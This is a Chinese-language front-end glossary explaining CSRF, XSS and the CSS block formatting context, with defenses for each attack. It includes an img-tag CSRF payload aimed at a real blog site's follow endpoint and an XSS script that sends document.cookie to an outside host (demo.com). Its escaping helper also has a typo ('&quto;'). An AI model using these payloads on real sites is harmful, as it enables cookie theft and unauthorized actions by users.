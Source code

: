 # 术语

## CSRF
CSRF（Cross-site request forgery）跨站请求伪造
XSS 利用站点内的信任用户，而CSRF则通过伪装来自受信任用户的请求来利用受信任的网站。与XSS攻击相比，CSRF攻击往往不大流行（因此对其进行防范的资源也相当稀少）和难以防范，所以被认为比XSS更具危险性。
理解：攻击者盗用了你的身份，以你的名义发送恶意请求，对服务器来说这个请求是完全合法的，但是却完成了攻击者所期望的一个操作，比如以你的名义发送邮件、发消息，盗取你的账号，添加系统管理员，甚至于购买商品、虚拟货币转账等

### CSRF 攻击示例 
CSRF攻击攻击原理及过程如下：

1. 用户 C 打开浏览器，访问受信任网站 A，输入用户名和密码请求登录网站 A；
2. 在用户信息通过验证后，网站 A 产生 Cookie 信息并返回给浏览器，此时用户登录网站 A 成功，可以正常发送请求到网站 A；
3. 用户未退出网站 A 之前，在同一浏览器中，打开一个 TAB 页访问网站 B（恶意网站）；
4. 网站 B 接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点 A；
5. 浏览器在接收到这些攻击性代码后，根据网站 B 的请求，在用户不知情的情况下携带 Cookie 信息，向网站 A 发出请求。网站 A 并不知道该请求其实是由B发起的，所以会根据用户 C 的 Cookie 信息以 C 的权限处理该请求，导致来自网站 B 的恶意代码被执行

示例：

假如博客园有个加关注的 GET 接口，如下：
http://www.cnblogs.com/mvc/Follow/FollowBlogger.aspx?blogUserGuid=4e8c33d0-77fe-df11-ac81-842b2b196315

blogUserGuid 参数很明显是关注人Id，那我只需要在我的一篇博文内容里面写一个img标签：
```html
<img style="width:0;" src="http://www.cnblogs.com/mvc/Follow/FollowBlogger.aspx?blogUserGuid=4e8c33d0-77fe-df11-ac81-842b2b196315"/>
```
那么只要有人打开我这篇博文，那就会自动关注我


基于以上：

CSRF攻击的本质原因
CSRF攻击是源于 Web 的隐式身份验证机制。Web的身份验证机制虽然可以保证一个请求是来自于某个用户的浏览器，但却无法保证该请求是用户批准发送的，CSRF攻击的一般是由服务端解决

### CSRF 的防御

1. 尽量使用POST，限制GET
GET 接口太容易被拿来做CSRF攻击，只要构造一个img标签，将恶意链接放入 src 属性，就会自动调用。而img标签又是不能过滤的数据。接口最好限制为POST使用，GET则无效，降低攻击风险。

当然POST并不是万无一失，攻击者只要构造一个form就可以，但需要在第三方页面做，这样就增加暴露的可能性

2. 加验证码
验证码，强制用户必须与应用进行交互，才能完成最终请求。在通常情况下，验证码能很好遏制CSRF攻击。但是出于用户体验考虑，网站不能给所有的操作都加上验证码。因此验证码只能作为一种辅助手段，不能作为主要解决方案

3. CSRF Token

现在业界对CSRF的防御，一致的做法是使用一个Token（Anti CSRF Token）。

例子：
1. 用户访问某个表单页面。
2. 服务端生成一个Token，放在用户的Session中，或者浏览器的Cookie中。
3. 在页面表单附带上Token参数。
4. 用户提交请求后， 服务端验证表单中的Token是否与用户Session（或Cookies）中的Token一致，一致为合法请求，不是则非法请求。
这个Token的值必须是随机的，不可预测的。由于Token的存在，攻击者无法再构造一个带有合法Token的请求实施CSRF攻击。另外使用Token时应注意Token的保密性，尽量把敏感操作由GET改为POST，以form或AJAX形式提交，避免Token泄露

注意：
CSRF的Token仅仅用于对抗CSRF攻击。当网站同时存在XSS漏洞时候，那这个方案也是空谈。所以XSS带来的问题，应该使用XSS的防御方案予以解决

总结
CSRF攻击是攻击者利用用户的身份操作用户帐户的一种攻击方式，通常使用Anti CSRF Token来防御CSRF攻击，同时要注意Token的保密性和随机性

## XSS
跨站脚本攻击(Cross Site Scripting)
为了不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS
原理是攻击者往 web 页面里插入恶意的脚本代码（CSS代码、JavaScript代码等），当用户浏览该页面时，嵌入其中的脚本代码会被执行，从而达到恶意攻击用户的目的。如盗取用户cookie，破坏页面结构、重定向到其他网站等

理论上来说，web 页面中所有可由用户输入的地方，如果没有对输入的数据进行过滤处理的话，都会存在 XSS 漏洞；当然，我们也需要对模板视图中的输出数据进行过滤

### XSS 攻击示例
有一个博客网站，提供了一个 web 页面（内含表单）给所有的用户发表博客，但该博客网站的开发人员并没有对用户提交的表单数据做任何过滤处理。 现在，我是一个攻击者，在该博客网站发表了一篇博客，用于盗取其他用户的cookie信息。博客内容如下：
```js
<script>
  var cookie = document.cookie;
  window.open("http://demo.com/getCookie.php?param="+cookie);
</script>
```
这是一段 XSS 攻击代码。当其他用户查看我的这篇博客时，他们的 cookie 信息就会被发送至我的 web 站点（http://demo.com/） ，如此，我就盗取了其他用户的 cookie 信息

### XSS 的防御
永远不要相信用户的输入，必须对输入的数据作过滤处理

1. 对用户输入内容格式做校验（表单校验）
2. 将所有的 [<,>,”,,&] 等符号都用 [<,>,",&] 字符进行替换，这些html标签符号被替换后，浏览器就会拿它当作一个普通字符串对待，而不是当作一个标签的开始/结束标志对待

前端过滤
```js
var escapeHtml = function(str) {
  if(!str) return '';
  str = str.replace(/&/g, '&amp;');
  str = str.replace(/</g, '&lt;');
  str = str.replace(/>/g, '&gt;');
  str = str.replace(/"/g, '&quto;');
  return str;
};

var name = escapeHtml(`<script>alert('lalala')</script>`);
// 此时 name 会变成
// &lt;script&gt;alert('lalala')&lt;/script&gt;
```

后端过滤
```js
String content = "<script>alert('ok');</script>";
content= StringEscapeUtils.escapeHtml4(content);
// 被转后后成为了&lt;script&gt;alert('ok');&lt;/script&gt;字符串，然后再输出到浏览器
```


## BFC
块级格式化上下文
W3C 对 BFC 的定义如下：

浮动元素和绝对定位元素，非块级盒子的块级容器（例如 inline-blocks, table-cells, 和 table-captions），以及overflow值不为“visiable”的块级盒子，都会为他们的内容创建新的BFC（块级格式上下文）。
为了便于理解，我们换一种方式来重新定义BFC。一个HTML元素要创建BFC，则满足下列的任意一个或多个条件即可：

1. float的值不是none。
2. position的值不是static或者relative。
3. display的值是inline-block、table-cell、flex、table-caption或者inline-flex
4. overflow的值不是visible

BFC是一个独立的布局环境，其中的元素布局是不受外界的影响，并且在一个BFC中，块盒与行盒（行盒由一行中所有的内联元素所组成）都会垂直的沿着其父元素的边框排列。